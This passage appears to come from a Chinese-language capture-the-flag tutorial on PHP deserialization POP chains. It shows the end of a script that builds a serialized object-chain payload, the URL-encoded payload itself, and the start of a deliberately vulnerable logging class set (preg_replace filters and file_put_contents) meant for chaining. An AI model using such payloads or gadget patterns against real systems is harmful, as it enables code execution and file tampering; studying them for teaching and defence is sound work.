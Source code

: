 ```php
                $this->mod1=new Call();
        }
}

$b = new start_gg;      //构造start_gg类对象$b
echo urlencode(serialize($b));
?>
```

```
O%3A8%3A%22start_gg%22%3A1%3A%7Bs%3A4%3A%22mod1%22%3BO%3A4%3A%22Call%22%3A1%3A%7Bs%3A4%3A%22mod1%22%3BO%3A8%3A%22CallFunc%22%3A1%3A%7Bs%3A4%3A%22mod1%22%3BO%3A10%3A%22InvokeFunc%22%3A1%3A%7Bs%3A4%3A%22mod1%22%3BO%3A12%3A%22ToStringFunc%22%3A1%3A%7Bs%3A4%3A%22str1%22%3BO%3A7%3A%22GetFlag%22%3A0%3A%7B%7D%7D%7D%7D%7D%7D
```

---

## 例题1

```php
<?php
class OutputFilter {
  protected $matchPattern;
  protected $replacement;
  function __construct($pattern, $repl) {
    $this->matchPattern = $pattern;
    $this->replacement = $repl;
  }
  function filter($data) {
    return preg_replace($this->matchPattern, $this->replacement, $data);
  }
};
class LogFileFormat {
  protected $filters;
  protected $endl;
  function __construct($filters, $endl) {
    $this->filters = $filters;
    $this->endl = $endl;
  }
  function format($txt) {
    foreach ($this->filters as $filter) {
      $txt = $filter->filter($txt);
    }
    $txt = str_replace('\n', $this->endl, $txt);
    return $txt;
  }
};
class LogWriter_File {
  protected $filename;
  protected $format;
  function __construct($filename, $format) {
    $this->filename = str_replace("..", "__", str_replace("/", "_", $filename));
    $this->format = $format;
  }
  function writeLog($txt) {
    $txt = $this->format->format($txt);
    //TODO: Modify the address here, and delete this TODO.
    file_put_contents("E:\\www\\pop\\" . $this->filename, $txt, FILE_APPEND);
  }
};
class Logger {
  protected $logwriter;
  function __construct($writer) {
```